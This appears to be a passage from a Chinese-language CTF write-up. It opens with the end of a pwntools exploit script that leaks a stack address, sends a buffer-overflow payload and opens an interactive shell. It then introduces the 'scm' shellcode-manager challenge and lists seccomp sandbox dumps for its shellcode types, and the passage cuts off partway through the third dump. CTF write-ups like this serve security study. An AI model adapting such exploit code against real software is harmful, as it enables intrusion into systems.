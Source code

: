 ```python
	stack = int(ru(':')[:-2],16)
	ru('2: No, go back')
	sl(b'1\x00'+b'1'*(0x2028-2)+p64(stack+0x1428*11))
	
	p.interactive()
	return ''


if __name__ == "__main__":

	flag = exp(0, 0)

```



## scm

> By captainGeech
>
> Keeping track of your different shellcode payloads is annoying, but the SCM is here to help! Safety first, though!
>
> [附件](https://github.com/X1ngn/ctf/blob/master/scm.zip)

题目文件是一个shellcode管理器，3种不同的shellcode，分别用seccomp-tools查沙箱

```
'''
type1
Running shellcode... line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0007
 0006: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
 
 type2
 Running shellcode... line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
 0006: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 
 type3
 Running shellcode... line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0008
```